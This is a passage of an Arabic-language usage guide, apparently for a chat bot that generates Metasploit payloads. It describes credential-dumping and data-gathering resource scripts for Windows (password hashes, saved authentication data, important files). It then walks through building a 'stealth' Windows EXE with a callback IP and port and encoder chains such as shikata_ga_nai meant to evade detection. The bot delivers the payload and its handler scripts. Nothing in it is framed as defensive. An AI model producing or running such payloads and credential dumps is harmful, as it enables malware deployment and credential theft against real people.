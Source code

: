 #### `cred_dump.rc` - استخراج كلمات المرور:
```
cred_dump.rc 1
```
- استخراج كلمات مرور Windows
- hash values للمستخدمين
- معلومات المصادقة المحفوظة

#### `gather.rc` - جمع معلومات شاملة:
```
gather.rc
```
- جمع ملفات مهمة
- معلومات البرامج المثبتة
- إعدادات الأمان

**النتيجة**: تقارير مفصلة وملفات مستخرجة

---

## 🔄 سير العمل النموذجي

### مثال كامل لإنشاء payload متقدم:

#### الخطوة 1: بدء البوت
```
/start
```

#### الخطوة 2: اختيار النوع
اضغط على **"EXE متقدم (Windows)"**

#### الخطوة 3: إدخال المعاملات
```
192.168.1.100 4444 stealth_payload x64 x86/shikata_ga_nai:5,x86/countdown:3 true
```

#### الخطوة 4: مراقبة التقدم
ستحصل على تحديثات:
- "تم إنشاء المهمة: task_abc123"
- "الحالة: جارِ التحضير"
- "الحالة: جارِ التنفيذ"
- "الحالة: تم بنجاح"

#### الخطوة 5: تلقي النتائج
- الملف النهائي يُرسل تلقائياً
- ملفات مساعدة إضافية (handler scripts, etc.)

---

## ⚡ نصائح الاستخدام المتقدم
